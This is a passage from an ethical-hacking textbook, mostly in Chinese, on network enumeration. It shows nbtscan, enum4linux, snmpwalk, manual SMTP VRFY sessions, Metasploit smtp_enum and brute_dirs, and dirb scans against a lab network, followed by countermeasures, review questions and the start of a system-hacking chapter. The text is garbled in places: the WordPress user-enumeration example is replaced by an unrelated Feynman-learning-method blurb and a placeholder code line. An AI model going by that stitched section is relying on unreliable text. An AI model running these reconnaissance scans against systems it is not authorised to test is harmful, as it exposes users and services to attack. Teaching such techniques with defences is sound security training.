192.168.86.170   MILOBLOOM        <server>  <unknown>        ac:87:a3:1e:6b:30

192.168.86.50    STEVEDALLAS      <server>  <unknown>        46:5e:c8:0a:b7:d1

192.168.86.26    YAZPISTACHIO     <server>  <unknown>        f0:18:98:0c:34:69

192.168.86.61    MILOBLOOM        <server>  <unknown>        ac:87:a3:1e:6b:30

192.168.86.32    BILLTHECAT       <server>  <unknown>        ac:87:a3:36:d6:aa

192.168.86.27    BINKLEY          <server>  <unknown>        8c:85:90:5a:7e:f2

192.168.86.255   Sendto failed: Permission denied
```


Getting the output here, just as with any tool, is helpful, but at some point you need to do something with the information, not least putting it into a report for your client or employer. One nice thing about `nbtscan` is the ability to generate output that can be manipulated programmatically. This may include taking the output and putting it into a database. While you can certainly read in values with white‑space separators, `nbtscan` lets you specify a separator that may make it easier to read in the output, but you can also specify a comma as a separator and then open the output in a spreadsheet program. Adding `‑s` followed by whatever character you want to use as a separator will get you the same output as shown earlier, just with your specified separator included between the different fields.

You may start to see a bit of a pattern when it comes to enumeration and SMB. While there are a lot of tools available, they all perform the same functions, and the easiest thing to do when it comes to enumeration is to identify systems that use SMB, including the name they advertise on the network. One note about that name: it may not resolve to an IP address. A name announced using NetBIOS is intended to be used and resolved on the local network. This means it won't resolve using DNS unless DNS is configured to use the same names and IP addresses. It's possible to have one name for your Windows sharing and another one for your DNS, assuming the system even has a DNS address. If your enterprise network uses WINS, they will resolve to be the same because of how the local systems register to WINS.

Another tool, and we'll see the same capabilities with this one, is `enum4linux`. The following example is being run from a Kali Linux system where it is installed by default, but it's easy enough to get a copy of it. It's just a Perl script, so to run it, you need a Perl interpreter. The following example enumerates the shares on a specific host, identified by IP address. The target system is a Linux system running Samba to provide Windows networking functionality over SMB. In the output, you will find a lot of information related to how Samba is configured. As an example, we can see that the workgroup WORKGROUP is configured, which is a way of organizing systems on a local network that are all using Windows.

### enum4linux Share Enumeration

```
root@quiche:~# enum4linux  -S 192.168.86.52

Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Jan 3 12:18:25 2021

==========================

|    Target Information    |

==========================

Target …….. 192.168.86.52

RID Range …….. 500-550,1000-1050

Username ……… ''

Password ……… ''

Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

[+] Got domain/workgroup name: WORKGROUP

===================================================

|    Session Check on 192.168.86.52    |

=====================================

[+] Server 192.168.86.52 allows sessions using username '', password ''

========================================

|    Getting domain SID for 192.168.86.52    |

=========================================

Domain Name: WASHERE

Domain Sid: (NULL SID)

[+] Can't determine if host is part of domain or part of a workgroup

========================================

|    Share Enumeration on 192.168.86.52    |

========================================

WARNING: The "syslog" option is deprecated

     Sharename       Type      Comment

     ---------       ----      -------

     homes           Disk      Home Directories

     print$          Disk      Printer Drivers

     IPC$            IPC       Service (bobbie server (Samba, Ubuntu))

 Reconnecting with SMB1 for workgroup listing.

     Server               Comment

     ---------            -------

     Workgroup            Master

     ---------            -------

     WORKGROUP            STEVEDALLAS

[+] Attempting to map shares on 192.168.86.52

```

At the bottom, you can see the different share names. This includes the `IPC$`, which is used for interprocess communication between hosts. This allows for management of systems remotely. Using `enum4linux`, we can finally see the master browser on the network. The system named `STEVEDALLAS` holds the current authoritative list of all the systems on the network. This is a system that has been elected by other systems on the network, which essentially means it has volunteered, and based on its characteristics, no one else has challenged it. The reason for `STEVEDALLAS` to be the master browser is it is one of only a couple of Windows systems, and of the two or three that were actual Windows systems and not Linux or macOS running SMB services, `STEVEDALLAS` has the most recent operating system.

Using SMB‑related utilities, we can gather a lot of information from the target network. As noted earlier, it's generally necessary to be on the local network to be able to use any of these tools. One reason for this can be the broadcast domain orientation of Windows networking—announcements on the local network. Another is that Windows networking ports are commonly blocked by firewalls. Also, it's entirely possible that desktop networks, where the systems are most likely to be communicating with SMB, often use private addresses that may not be exposed to the outside world. To get to them, because they are nonroutable by convention, you'd have to be on a network where there would at least be routing rules to get to those target networks, meaning there is network reachability.

-   [禁用 SMBv1] SMBv1 是一个较旧的协议，除非在非常特殊的情况下不需要它。它易受多种攻击，可能导致信息泄露。这很容易禁用，事实上，较新的 Windows 版本默认已禁用它。

-   `Enable Host‑Based Firewall` 使用分区可以在不受信任网络上保护单个系统。主机防火墙还可以设置规则，限制谁可以通过 SMB 与单个系统通信。大多数情况下，你不需要允许从工作站发起的 SMB 通信，除非是特定的基础设施系统。

    `Host‑based firewalls` 可以让你设置规则，限制谁可以向工作站发起 SMB 通信。对 Windows 服务器也可能适用。你应知道哪些基础设施系统应允许入站请求，以及应从哪些系统允许。

-   `Network Firewalls` 主机防火墙保护单个系统，但你可以在网络段之间启用网络防火墙，仅允许从预期的基础设施系统发起的 SMB 流量，从而在源头拦截大量流量。

-   `Disable Sharing` 在企业网络中，通常不应允许工作站进行共享。更好的做法是将共享放在服务器上，集中管理，让用户从文件服务器共享文件。禁用共享会自动减少外部可获得的信息量。

-   `Disable NetBIOS over TCP/IP` 这不是大多数 Windows 网络功能所必需的协议。可以禁用它，从而防止通过 TCP/IP 堆栈进行 NetBIOS 探测。

### 简单网络管理协议

简单网络管理协议（SNMP）自 1980 年代末期以来一直存在，并经历了多次迭代。第一个版本（SNMPv1）于 1988 年推出，尽管随后出现了更替，它仍在使用。SNMPv1 存在多个安全缺陷。它是二进制协议，但不支持加密，这意味着任何能截获传输数据的人都能轻松解码。另一个问题是其认证非常弱：SNMPv1 使用“公共字符串”进行访问，要么提供只读权限，要么提供读写权限，且没有比这更细粒度的控制。此外，它缺乏用户概念，你只需提供相应字符串即可获得相应访问级别。更糟的是，常用的公共字符串非常出名：读取使用 “public”，读写使用 “private”。这些字符串并非硬编码，但使用非常普遍。

版本 2 引入了一些修复，解决了该协议的广为人知的问题。它首先增强了基于社区字符串的基本认证模型。然而，随之而来的 v2c 保留了社区字符串的实现，这意味着现有工具仍可仅使用社区字符串进行认证，而无需实现额外的认证机制。v2 与 v1 不兼容，其消息规范不同，即使工具仅使用社区字符串，也无法直接在使用 v1 的系统上运行。

版本 3 实现了进一步的修复，相较前几版是重大改进。首先，它支持加密而非明文传输。其次，它支持基于用户的认证，这提高了问责性，让你清楚谁在做什么。这是重要的，因为 SNMP 不仅用于监控设备，还可用于设置端点参数。

基本的 SNMP 架构在端点上安装代理，服务器系统定期轮询这些代理以获取监控数据。SNMP 代理可以提供存储在管理信息基（MIB）中的信息。MIB 定义了使用 Abstract Syntax Notation One（ASN.1）的数据结构。每个节点或数据元素都有一个对象标识符（OID），是由数字序列组成的点分隔字符串。获取或设置任何值都需要提供对应的 OID。

SNMP 可提供大量有用信息，前提是已在代理上正确安装并运行相应的 MIB。这包括系统名称、运行的内核版本等。下面的示例展示了使用 `snmpwalk` 程序“遍历” MIB 树以获取代理数据的过程。它从树的顶层开始，收集所有可得信息。`snmpwalk` 的输出中可以看到系统名称以及内核标识，还有一些在 SNMP 代理中配置的联系信息。输出中使用 `‑v 2c` 指定版本，使用 `‑c` 参数指定公共字符串，这里的字符串是 `‘public’`。

#### `snmpwalk` of Linux System

```
```


```text
root@quiche:~# snmpwalk -v 2c -c public 192.168.86.52
iso.3.6.1.2.1.1.1.0 = STRING: "Linux bobbie 4.15.0-30-generic #32-Ubuntu SMP Sun Jan 4 17:42:43 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (7606508) 21:07:45.08
iso.3.6.1.2.1.1.4.0 = STRING: "Foo <foo@wubble.com>"
iso.3.6.1.2.1.1.5.0 = STRING: "bobbie"
iso.3.6.1.2.1.1.6.0 = STRING: "Erie, CO"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (1) 0:00:00.01
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
```

通过抓取诸如 `ifTable`（接口表）等 MIB，你可以得到系统上所有接口的列表及其配置。在分层网络设计中，这有助于了解系统可能连接的其他网络，从而继续完善你正在构建的网络图。

一个 SNMP 的优势是它最常用于网络设备（如路由器和交换机）。这些设备可能没有传统的访问方式，也没有传统的用户概念，使用 SNMP 来获取这些设备的信息可以是一个很好的入口点。正如往常一样，SNMP 协议通常会被防火墙禁用。换句话说，你通常需要先通过防火墙或访问控制列表获得对网络设备的特定访问权限，才能开始请求网络设备的 MIB 数据。正确实现和配置的 SNMP 代理不应向任何请求它的人员提供敏感的系统信息。

### Countermeasures

* **Upgrade to SNMPv3** 移除 SNMPv1 和 SNMPv2。
* **Require Authentication** 禁用仅使用 community 字符串进行认证的做法。
* **Require Encryption** 确保所有 SNMP 通信都经过加密。
* **Use Firewalls** 结合网络层和主机层防火墙，确保只有授权的主机之间进行通信。SNMP 不应在未受限制的网络中随意使用。

## Simple Mail Transfer Protocol

与许多其他协议一样，SMTP 使用一系列动词（verbs）与服务器交互。客户端发送一个动词以及必要的参数给 SMTP 服务器。根据动词的不同，服务器知道如何处理收到的参数。与其他更简单的协议不同，SMTP 的交互是一整套对话。在开始之前，你必须先向服务器问候，这告诉服务器你将使用何种 SMTP 版本。随后，你告知服务器你想执行的操作。根据你要完成的功能，可能需要提供额外的信息，例如提供凭证。下面给出一个简短的 SMTP 对话示例，这是纯手动的，你可以看到在协议层面的交流以及如何与 SMTP 服务器交互。如果你连接的不是本地服务器或 SMTP 服务器未认识的用户，可能会收到错误。

### SMTP Conversation

```text
root@quiche:~# nc 192.168.86.52 25

220 bobbie.lan ESMTP Postfix (Ubuntu)

EHLO blah.com

250-bobbie.lan

250-PIPELINING

250-SIZE 10240000

250-VRFY

250-ETRN

250-STARTTLS

250-ENHANCEDSTATUSCODES

250-8BITMIME

250-DSN

250 SMTPUTF8

MAIL From: foo@foo.com

250 2.1.0 Ok

RCPT To: wubble@wubble.com

250 2.1.5 Ok

DATA

354 End data with <CR><LF>.<CR><LF>

From: Goober

To: Someone

Date: today

Subject: Hi

Nothing really to say.

.

250 2.0.0 Ok: queued as 33471301389
```

发起对话时使用 `HELO` 或 `EHLO`，服务器会返回它所支持的功能列表。SMTP 协议中有几个功能可以用于枚举用户或至少电子邮件地址。其中之一是 `VRFY`，用于验证用户。并非所有邮件服务器都开启此功能，因为它可以用来识别合法用户或邮箱地址，进而被攻击者或垃圾邮件发送者利用。下面是一个在默认开启 `VRFY` 的本地 Postfix 服务器上的 `VRFY` 示例。

### Testing `VRFY`

```text
root@quiche:~# nc 192.168.86.52 25

220 bobbie.lan ESMTP Postfix (Ubuntu)

EHLO blah.com

250-bobbie.lan

250-PIPELINING

250-SIZE 10240000

250-VRFY

250-ETRN

250-STARTTLS

250-ENHANCEDSTATUSCODES

250-8BITMIME

250-DSN

250 SMTPUTF8

VRFY root@localhost

252 2.0.0 root@localhost

VRFY kilroy@localhost

252 2.0.0 kilroy@localhost

VRFY root

252 2.0.0 root
```

我们只收到状态码，没有具体的服务器反馈信息。252 表示地址无法验证，但服务器仍会尝试投递。即使 `VRFY` 已启用，也并未提供太多有用信息，手动遍历非常耗时。

可以手动完成，但 Metasploit 再次派上用场。`smtp_enum` 模块会读取字典文件并自动执行前面手动演示的过程。它提供了两种方式来判断用户是否存在——使用 `VRFY` 命令或 `MAIL TO` 命令。下面的列表展示了同一服务器的一次运行结果，使用的是 Metasploit 自带的默认字典 `unix_users.txt`（包含常见的 Unix 用户名）。

### `smtp_enum` Run

```text
msf auxiliary(scanner/smtp/smtp_enum)> use auxiliary/scanner/smtp/smtp_enum
msf auxiliary(scanner/smtp/smtp_enum)> show options
Module options (auxiliary/scanner/smtp/smtp_enum):

    Name       Current Setting       Required  Description
    ----       ---------------       --------  -----------
    RHOSTS                           yes       The target host(s), see https://
                                              github.com/rapid7/metasploit-fra
                                              mework/wiki/Using-Metasploit
    RPORT      25                    yes       The target port (TCP)
    THREADS    1                     yes       The number of concurrent threads
                                              (max one per host)
    UNIXONLY   true                  yes       Skip Microsoft bannered servers
                                              when testing unix users
    USER_FILE  /usr/share/metasploit-framework/data/wor
              tlists/unix_users.txt

View the full module info with the info, or info -d command.

msf auxiliary(scanner/smtp/smtp_enum)> set RHOSTS 192.168.86.52/32
RHOSTS => 192.168.86.52/32
msf auxiliary(scanner/smtp/smtp_enum)> run
[*] 192.168.86.52:25 - 192.168.86.52:25 Banner: 220 bobbie.lan ESMTP Postfix (Ubuntu)
[+] 192.168.86.52:25 - 192.168.86.52:25 Users found:, backup, bin, daemon, games, gnats, irc, list, lp, mail, man, messagebus, news, nobody, postmaster, proxy, sshd, sync, sys, syslog, uucp, www-data
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

可以看到该模块发现了许多用户。由于 `VRFY` 返回 252 而用户确实存在，说明模块并未使用 `VRFY`，而是使用了 `MAIL TO` 命令。不存在的用户会返回 550 状态码，存在的用户则返回 250。基于此，模块只返回了有效用户名——在 112 个用户中，仅有 21 个被确认存在。

还有一个可以在 SMTP 服务器上使用的命令，虽然它是针对邮件列表的。如果你找到一个属于某个域的邮件列表地址，你可能会使用 `EXPN` 来展开该列表，这意味着识别该列表中的电子邮件地址。此功能要求服务器支持增强 SMTP（ESMTP）。你可以通过检查服务器是否接受 `EHLO`（ESMTP 版本的 `HELO`）来测试服务器是否支持 ESMTP。

### 反制措施

* **禁用 `VRFY`** 一些 SMTP 服务器允许禁用此命令。将其从你的邮件服务器中移除，通常不会影响邮件投递所需的任何功能。
* **忽略未知地址** 让你的 SMTP 服务器忽略未知的用户名/电子邮件地址。返回错误会向攻击者提供用户是否存在的信息。
* **限制 Header 中的信息** 确保你不会向攻击者泄露内部电子邮件链的信息。这会向攻击者透露内部系统以及环境中的其他 SMTP 服务器。
* **禁用公开中继** 虽然这比以前少见，但确保你环境中的所有系统都不允许向其他域中继，有助于防止利用这些系统对其他域进行列举，因为许多终端用户网络（如有线网络）只允许发送给其提供商的电子邮件地址。
* **实施邮件安全** 虽然这些做法可能不完全防止列举，但越来越多的企业实施诸如 Sender Policy Framework（SPF）和 DomainKeys Identified Mail（DKIM）等措施，能更好地限制谁可以发送邮件，从而也能限制对邮件服务器的探测。

### Web‑Based Enumeration（基于 Web 的枚举）

在进行枚举时，Web 服务器可能还有以下几个值得关注的点。首先是识别网站中可用的目录。实现此目标的方法有很多，尤其是当你拥有 Web 应用测试工具时。即使你没有这些工具或不熟悉它们，也有简单的方法可以检查。所有你需要的是一个单词列表，提供可能的目录名称，以及一个能根据这些单词向 Web 服务器发送请求的工具——在每个单词后面追加基础统一资源定位符（URL）。

下面展示了程序 `dirb` 的使用示例，它自带常见目录名称的单词列表。该示例针对我自己网络中的一个 Web 服务器，该服务器上已解压 WordPress 分发包到基目录。

#### `dirb` 目录测试

```text
root@quiche:~# dirb http://192.168.86.52/

-----------------
DIRB v2.22
By The Dark Raver
-----------------
START_TIME: Sun Dec 3 19:38:36 2022
URL_BASE: http://192.168.86.52/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612

---- Scanning URL: http://192.168.86.52/ ----
+ http://192.168.86.52/index.php (CODE:200|SIZE:418)
==> DIRECTORY: http://192.168.86.52/wp-admin/
==> DIRECTORY: http://192.168.86.52/wp-content/
==> DIRECTORY: http://192.168.86.52/wp-includes/
+ http://192.168.86.52/xmlrpc.php (CODE:200|SIZE:3065)

---- Entering directory: http://192.168.86.52/wp-admin/ ----
+ http://192.168.86.52/wp-admin/admin.php (CODE:200|SIZE:10531)
==> DIRECTORY: http://192.168.86.52/wp-admin/css/
==> DIRECTORY: http://192.168.86.52/wp-admin/images/
==> DIRECTORY: http://192.168.86.52/wp-admin/includes/
+ http://192.168.86.52/wp-admin/index.php (CODE:200|SIZE:7265)
==> DIRECTORY: http://192.168.86.52/wp-admin/js/
==> DIRECTORY: http://192.168.86.52/wp-admin/maint/
==> DIRECTORY: http://192.168.86.52/wp-admin/network/
==> DIRECTORY: http://192.168.86.52/wp-admin/user/
```

我们目前已经检查了已知或预期的目录。使用单词列表并不保证能够识别服务器上所有可用的目录。如果目录不在列表中，则不会被发现。此时可以转向另一个工具进行目录名模糊测试，即基于规则动态生成名称。你可能会在此阶段期待转向 Metasploit，因为它非常有用。我们可以使用 `brute_dirs` 模块。使用该模块时，你设置目录名称的格式，模块会遍历所有符合该格式的可能名称。下面展示了该模块的可用选项以及设定的格式，我们将测试所有由小写字符组成、长度在 1 到 8 个字符之间的词。

#### `brute_dirs` Metasploit 模块

```text
msf> use auxiliary/scanner/http/brute_dirs
msf auxiliary(scanner/http/brute_dirs)> info
       Name: HTTP Directory Brute Force Scanner
      Module: auxiliary/scanner/http/brute_dirs
```


- License: BSD License
- Rank: Normal
- Provided by: et <et@metasploit.com>

**Basic options:**

| Name | Current Setting | Required | Description |
|------|-----------------|----------|-------------|
| `FORMAT` | a,aa,aaa | yes | The expected directory format (a alpha, d digit, A upperalpha) |
| `PATH` | `/` | yes | The path to identify directories |
| `Proxies` |  | no | A proxy chain of format type:host:port[,type:host:port][…] |
| `RHOSTS` | 192.168.86.52 | yes | The target address range or CIDR identifier |
| `RPORT` | 80 | yes | The target port (TCP) |
| `SSL` | false | no | Negotiate SSL/TLS for outgoing connections |
| `THREADS` | 1 | yes | The number of concurrent threads |
| `VHOST` |  | no | HTTP server virtual host |

**Description:**

This module identifies the existence of interesting directories by brute forcing the name in a given directory path.

```
msf auxiliary(scanner/http/brute_dirs)> set FORMAT a,aa,aaa,aaaa,aaaaa,aaaaaa,
aaaaaaa,aaaaaaaa
FORMAT => a,aa,aaa,aaaa,aaaaa,aaaaaa,aaaaaaa,aaaaaaaa
msf auxiliary(scanner/http/brute_dirs)> run
[*] Using code '404' as not found.
```

Metasploit 当然拥有大量模块，可用于 Web-based enumeration 除了识别 Web 服务器上的目录之外。当你开始使用网站和特别是 Web 应用时，你会发现许多广为人知的开源应用。例如，你可能会发现一个 WordPress 安装。同样使用 Metasploit，我们可以枚举 WordPress 安装中的用户。`wordpress_login_enum` 模块可以接受用户文件或密码文件，也可以提供单个用户名配合密码文件，或单个密码配合用户名文件。该模块还有许多其他可设置的选项，提供了丰富的功能。下面展示了在本地 WordPress 安装上运行该模块的示例。

**枚举 WordPress 用户名**

-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


这些并不是我们在 Web 应用中能够列举的唯一事项。我们可以扫描网络以查找不同的 Web 应用，或者查看用户列举。查找 Web 服务器上的目录也是有用的，因为它可以帮助我们识别应用以及可能可用的数据。

## Countermeasures

从 Web 服务器中可以泄露大量信息。有一些技术可以用于防止基于 Web 的列举。

*   **限制所提供的信息**　　Headers 和错误消息不应泄露服务器信息，尤其是版本号，包括底层操作系统或应用程序栈的信息。
*   **使用适当的访问控制**　　确保所有 Web 应用都启用了强有力的身份验证，并设置了适当的访问控制，以保护资源免受未经授权的用户访问。
*   **禁用目录列表**　　禁用 Web 服务器的开放目录列表，以防止可能敏感的文件被公开访问。

## Summary

列举是获取比 IP 地址和端口更上层的网络堆栈的大量信息的过程。此时我们正移动到应用层。我们在寻找诸如用户名、它们的位置、网络共享以及我们可能能够获取的其他立足点。为了完成这些列举工作，有许多协议和工具可供使用。第一个是 `nmap`，因为我们需要超越仅仅识别开放端口。我们需要识别正在使用的服务，包括所使用的软件。`nmap` 的一个有用特性，特别是在这些情况下，是其脚本功能。这包括内置的所有脚本。

关于 `nmap`，有脚本可以用来不仅探测服务以获取更多细节，还可以利用其丰富的列举能力。我们可以花时间研究的一个协议是 SMB 协议。`nmap` 包含一系列脚本，用于探测使用 SMB 的系统。这些脚本可以识别可能开放的共享，以及通过 SMB 可能访问的用户和其他管理相关信息。

SMB 依赖于 RPC。NFS（由 Sun Microsystems 开发的文件共享协议）也使用 RPC。我们可以使用 `nmap` 来枚举 RPC 服务，因为这些服务会通过映射或注册表服务动态注册。探测 RPC 服务器将提供有关正在导出 RPC 功能的程序和端口的详细信息。如果程序是用 Java 编写的，它将使用 RMI 而不是 `portmap` 或 SunRPC 协议。

另一个可以在多种协议中用于列举的程序是 Metasploit。Metasploit 附带大量模块，用于枚举 SMB 共享和用户、SunRPC 服务以及其他多种协议。如果有信息可以被枚举，Metasploit 很可能已经有一个相应的模块。这包括用于通过 SMTP 服务器枚举用户的模块。你也可以使用 SNMP 进行枚举。当然，在 SNMP 方面，你也可以使用诸如 `snmpwalk` 的工具。

虽然 Metasploit 可以在很多不同的协议上查找有价值的信息，它并不是唯一可用的工具。例如，Windows 系统内置的工具可以用于从 SMB 收集信息，你也可以在 Linux 系统上找到工具，尤其是如果你安装了 Samba。Samba 是一个实现 SMB 协议的开源软件包，适用于类 Unix 系统。此外，还有许多开源工具可用于不同的协议。如果你对使用 Linux 没有问题，Kali Linux 是一个包含数百种安全相关工具的发行版。

在执行列举时，你应该记笔记，以便在后续参考。使用 Metasploit 的一个优势（不夸大其词）是它使用数据库后端，会自动存储大量信息。这不仅适用于服务和端口，也适用于识别出的用户名。这并不意味着 Metasploit 可以存储你参与的每一个方面，但你可以在需要时通过查询 Metasploit 数据库来获取详细信息。

每一个可以被枚举的服务都应该部署相应的防护措施。每个服务的防护措施各不相同，但在可能的范围内限制访问这些服务，将有助于防止信息轻易被收集。

## Review Questions

答案位于附录。

1.  RPCs 主要用于什么？
    - 1. 进程间通信
    - 2. 进程间信号量
    - 3. 远程方法调用
    - 4. 进程需求页存

2.  如果你使用 `enum4linux`，你试图枚举什么？
    - 1. 过程
    - 2. 基于 Linux 的服务
    - 3. 共享和/或用户
    - 4. 内存利用

3.  你如何通过 SNMPv1 进行身份验证？
    - 1. 用户名/密码
    - 2. 哈希
    - 3. 公共字符串
    - 4. 社区字符串

4.  哪条 SMTP 命令用于获取邮件列表的用户列表？
    - 1. `EXPD`
    - 2. `VRFY`
    - 3. `EXPN`
    - 4. `VRML`

5.  你会使用工具 `dirb` 进行哪种枚举？
    - 1. 目录列表
    - 2. 目录枚举
    - 3. 暴力拨号
    - 4. 用户目录分析

6.  SNMP 中的数据描述被称为？
    - 1. 基于管理的信息
    - 2. 数据结构定义
    - 3. 可扩展标记语言
    - 4. 管理信息基

7.  如果 Java 程序通过网络共享过程，它们会向什么来标识自己？
    - 1. RMI 注册表
    - 2. RMI 映射器
    - 3. RMI 数据库
    - 4. RMI 进程

8.  你在与同事合作时，看到他们使用 `VRFY` 命令与邮件服务器交互。你的同事在做什么？
    - 1. 验证 SMTP 命令
    - 2. 验证邮件列表
    - 3. 验证电子邮件地址
    - 4. 验证服务器配置

9.  SMB 协议用于什么？
    - 1. 使用 NFS 进行的数据传输
    - 2. Windows 系统上的数据传输
    - 3. 电子邮件附件的数据传输
    - 4. Windows 注册表更新的数据传输

10. 哪个是 Windows 内置程序，用于通过 SMB 收集信息？
    - 1. `nmblookup`
    - 2. `smbclient`
    - 3. Metasploit
    - 4. `nbtstat`

11. 如果你尝试使用 `VRFY` 命令失败，会得到什么状态码？
    - 1. 550
    - 2. 501
    - 3. 250
    - 4. 200

12. 哪个程序用于枚举服务？
    - 1. `smbclient`
    - 2. `nmap`
    - 3. `enum4linux`
    - 4. `snmpwalk`

13. 哪个版本的 SNMP 引入了加密和基于用户的身份验证？
    - 1. 1
    - 2. 2
    - 3. 2c
    - 4. 3

14. 你可以在 WordPress 站点上使用 `wpscan` 枚举哪些内容？
    - 1. 插件
    - 2. 帖子
    - 3. 管理员
    - 4. 版本

15. 哪个工具允许你基于识别出的开放端口创建自己的枚举函数？
    - 1. Metasploit
    - 2. `nmap`
    - 3. Netcat
    - 4. `nbtstat`

16. 启用 Windows 文件共享的底层功能是什么？
    - 1. 网络文件系统
    - 2. 常见 Internet 文件系统
    - 3. 远程过程调用
    - 4. 远程方法调用

17. `IPC$` 共享用于什么？
    - 1. 进程管道
    - 2. 进程构建
    - 3. 远程进程管理
    - 4. 进程间通信

18. Java 程序若要实现远程进程通信，需要使用什么工具？
    - 1. JRE
    - 2. `rmic`
    - 3. `rmir`
    - 4. JDK

19. 哪个选项用于在系统之间传递对象？
    - 1. SunRPC
    - 2. SMB
    - 3. RMI
    - 4. `nmap`

20. 如果你需要在多个服务之间枚举数据并将其存储以便以后检索，应该使用什么工具？
    - 1. Metasploit
    - 2. `nmap`
    - 3. RMI
    - 4. Postgres

21. 哪条 SMTP 命令最容易被禁用，以防止攻击者利用它进行枚举？
    - 1. `MAIL FROM`
    - 2. `RCPT TO`
    - 3. `DATA`
    - 4. `VRFY`

22. 网络管理员应该运行哪个版本的 SNMP？
    - 1. V1
    - 2. V2
    - 3. V3
    - 4. V4

23. 哪个选项不是保护 SMB 枚举的方法？
    - 1. 实施最新的 NetBIOS 补丁
    - 2. 禁用 SMB
    - 3. 使用网络防火墙
    - 4. 禁用共享

24. 哪个 Metasploit 模块可以利用终端用户工作站可能存在的较弱权限？
    - 1. `auxiliary/scanner/smb/smb_enumusers_domain`
    - 2. `auxiliary/admin/smb/delete_file`
    - 3. `auxiliary/admin/smb/check_dir_file`
    - 4. `auxiliary/scanner/smb/smb_enumshares`

25. 哪种安全技术可以用于防止服务枚举？
    - 1. 入侵检测系统 (IDS)
    - 2. 主机防火墙
    - 3. 终端检测与响应 (EDR)
    - 4. 防病毒

# Chapter 7

System Hacking

这里我们进入许多人认为的“黑客”或渗透测试的内容。显然，系统黑客是重要的组成部分，因为它是用来证明漏洞确实存在的地方，但它并非唯一的部分。伦理黑客或渗透测试不仅仅是破解系统——掠夺和掠夺。请记住，目标始终是帮助组织提升其安全态势。利用漏洞获取系统访问是实现这一目标的一种方式。入侵系统证明了漏洞的存在，同时也提供了通往其他系统的潜在路径。

在目标明确且漏洞列表已就位的前提下，我们可以开始寻找漏洞利用。有几种方法可以实现这一点，有些更有效，有些相对不那么有效。一种方法可以直接在运行测试的系统上进行。找到并运行漏洞利用是能够针对目标系统获取访问的关键。一旦获得访问，就会进入后期利用活动。

你会想要抓取密码并尝试破解这些密码。这有两个作用。首先，它表明存在可以被破解的密码——强密码在没有投入巨大时间和计算资源的情况下不应能被轻易破解。如果你能轻易破解密码，说明它不够强，应该更改。其次，用户名和密码是你可以用于其他系统的凭据。

仅仅进入系统可能收获不多。执行漏洞利用时，你只有服务以该用户身份运行时所拥有的权限，通常是受限的权限集合。因此，你可能无法做太多事情。除非你获得更高的权限，否则很难进一步操作。这意味着你需要本地漏洞，即只在你登录系统时才能访问或运行的软件中的漏洞。如果这些特权提升成功，你将获得另一层信息和访问，从而可以加以利用。

攻击者通常会试图隐藏其在系统中的存在。如果你在红队角色下工作，目标运营团队的检测和响应能力正在被测试，你也需要掩盖自己的痕迹。为了隐藏存在痕迹，你可能需要采取若干步骤。这尤其适用于当存在初始系统入侵的证据时。

本章可能比其他章节涵盖的技术范围更广，这些技术仅是起点。使用的工具远多于此处能够涵盖的数量。系统利用并非一门科学，你不能单纯阅读一套说明就能可靠地破解系统。这是一门艺术，需要大量时间在工具使用、漏洞理解以及如何利用漏洞方面进行投入。往往需要对系统管理有一定的了解，也就是说你需要知道如何操作你试图破解的系统。虽然这方面的伦理黑客常被认为是最有趣的，但要做好它需要大量时间和努力，且不一定是最重要的部分。

当涉及 MITRE ATT&CK 框架时，本章涵盖的技术属于 **Execution** 与 **Persistence** 两个阶段。在这两个阶段之间有 32 种技术。其中，19 种属于 **Persistence**。这表明这里的内容非常丰富，我们无法全部覆盖。系统黑客（EC-Council 称之为）需要大量的工作、探索和持久性，意味着你必须坚持不懈。我们会介绍这方面的基础，当然，要真正理解这些主题需要时间和努力。如果这是你的职业方向，你需要投入大量时间来深入理解所有工具和技术。

## Searching for Exploits

你已经完成了枚举，并在扫描中识别出漏洞，现在手里有一份看起来有前景的漏洞列表。你需要利用这些漏洞的方法，即使你有能力自己编写 exploit，也往往没有时间这么做。你可以利用他人的工作来获取 exploit，从而清晰展示漏洞的可利用性——这是报告给客户/雇主的主要原因之一。运行 exploit 的另一个原因是获得额外的跳板，以便转向其他网络寻找更多漏洞。

你可能在想，哪里可以找到大量的 exploit。一个很好的资源是 `www.exploit-db.com`。这是研究人员和开发者发布 exploit 代码和概念验证代码的站点，这些代码针对已识别的漏洞。虽然这些 exploit 往往会被纳入像 Metasploit 这样的工具中，但不一定总是如此。尤其是当 exploit 只是概念验证且并未完全实现时，它可能无法真正完成 exploit。如果你查看 Figure 7.1，可以看到当前 exploit 列表的代码清单。你看到的仅是远程 exploit 列表。公平地说，并非所有这些都符合你对 exploit 的想象——如果你把 exploit 想象为能直接给你一个 shell 的东西的话。


**FIGURE 7.1** Remote Exploits list at `www.exploit-db.com` Source: Remote Exploits list / [www.exploit-db.com](http://www.exploit-db.com) / last accessed March 01, 2023.

